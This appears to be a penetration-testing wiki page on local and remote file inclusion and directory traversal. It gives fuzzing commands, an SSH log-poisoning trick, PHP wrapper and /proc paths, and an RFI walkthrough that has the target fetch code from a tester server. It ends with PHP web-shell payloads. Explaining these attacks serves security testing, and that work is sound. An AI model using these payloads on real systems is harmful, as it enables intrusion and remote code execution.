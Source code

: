 # 🛠️ File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters \(cookies, GET or POST parameters\) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI \(Local/Remote File Inclusion\) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE \(Remote Code Execution\) or to client-side attacks such as XSS \(Cross-Site Scripting\).

Directory traversal \(a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack\) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for file related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* **Local File Inclusion** : inclusion of a local file \(in the web server directory\) using an absolute path
* **LFI + directory traversal** : inclusion of a local file \(in the web server directory or not\) by "climbing" the server tree with `../` \(relative path\)
* **Remote File Inclusion** : inclusion of a remote file \(not on the server\) using an URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) \(Perl\) can help finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) \(C\) can help finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE \(Remote Code Execution\) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

### 🛠️ LFI to RCE \(via logs poisoning\)

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
ssh '<?php phpinfo(); ?>'@$TARGET
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

🛠️ Introduce other examples, like apache session logs

* /var/log/apache/access.log
* /var/log/apache/error.log
* /var/log/httpd-access.log
* /var/log/vsftpd.log
* /var/log/sshd.log
* /var/log/mail

### 🛠️ LFI to RCE \(via phpinfo\)

### 🛠️ LFI to RCE \(via file upload\)

### 🛠️ LFI to RCE \(via php wrappers\)

//note : not sure we can achieve RCE with wrapper, we can however leak local file content \(i.e. source code\)

* php://file
* php://filter
* php://input
* expect://
* data://text/plain;base64,command

### 🛠️ LFI to RCE \(via /proc\)

* /proc/self/environ
* /proc/self/fd

### 🛠️ LFI to RCE \(via php session\)

🛠️ Introduce php wrappers

PHP wrappers can be combined with a [file upload](unrestricted-file-upload.md) to achieve RCE.

1. Upload a `.zip` file containing a PHP code execution script \(`rce.php`\)
2. Trigger the code execution by requesting `http://some.website/?page=zip://path/to/file.zip%23rce.php`.

### RFI to RCE

The tester can create a `phpinfo.php` containing `<?php phpinfo(); ?>` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the phpinfo in the response.

{% hint style="warning" %}
If the the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.
{% endhint %}

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute code with one of the following payloads.

{% hint style="info" %}
As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.
{% endhint %}

```php
<?php system('whoami'); ?>
<?php exec('whoami'); ?>
<?php passthru('whoami'); ?>
<?php shell_exec('whoami'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/directory-traversal" caption="" %}

{% embed url="https://portswigger.net/web-security/file-path-traversal" caption="" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/05-Authorization\_Testing/01-Testing\_Directory\_Traversal\_File\_Include.html" caption="Directory traversal and File Include" %}

{% embed url="https://owasp.org/www-community/attacks/Path\_Traversal" caption="Testing for Directory traversal" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.2-Testing\_for\_Remote\_File\_Inclusion.html" caption="Testing for Remote File Inclusion" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.1-Testing\_for\_Local\_File\_Inclusion.html" caption="Testing for Local File Inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" caption="" %}

